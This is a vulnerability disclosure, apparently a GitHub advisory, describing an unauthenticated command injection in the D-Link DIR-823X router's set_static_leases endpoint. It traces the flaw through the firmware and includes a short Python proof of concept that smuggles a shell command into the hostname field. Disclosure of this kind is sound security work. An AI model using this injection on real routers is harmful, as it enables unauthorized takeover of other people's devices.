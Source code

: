 ## Basic Information

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.com.cn/

Affected Device Type: Routers

Affected Product: DIR-823X

Affected Product Version: <= V250416



## Vulnerability Overview

The latest version 250416 (250416) of the D-LINK DIR-823X router contains an unauthorized command execution vulnerability. The vulnerability resides in the /usr/sbin/goahead file. Accessing the router's /goform/set_static_leases function and requesting specific fields allows arbitrary command execution without authentication, enabling remote command execution and even shell access.

Download the latest firmware from the official website. [D-Link Technical Support](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823X)
Locate the /usr/sbin/goahead file and find the function request entry.

![](img/0.png)

![](img/1.png)

Here we can see that the above values are taken and then processed by the sub_415028 function to continue tracking.

![](img/2.png)

Found that the command was finally spliced in

![](img/3.png)

![](img/4.png)

Previously, there was a filter for dangerous characters, but it wasn't completely strict, allowing for command injection.

Access testing revealed normal access without requiring a login.

![](img/5.png)

Try to execute the command to create a file and find that it is successfully executed

![](img/6.png)



## POC

```python
# !/usr/bin/env python3
import requests


TARGET_URL = "http://192.168.122.150/goform/set_static_leases"


reverse_shell_cmd = '" |ls > 1.txt"'


try:
    response = requests.post(
        TARGET_URL,
        data={"hostname": reverse_shell_cmd,"modmun":"1","ipaddr":"192.168.122.150","macaddr":"99"},
        timeout=10
    )
    print(f"请求发送成功，状态码: {response.status_code}")
    print(f"响应内容: {response.text}")

except requests.exceptions.RequestException as e:
print(f"请求失败: {e}")
```

![](img/7.png)

## Vulnerability Impact

An attacker could exploit this vulnerability to execute unauthorized commands and escalate privileges.

## Remediation Solution

Contact the vendor to obtain the security patch and implement a timely vulnerability fix.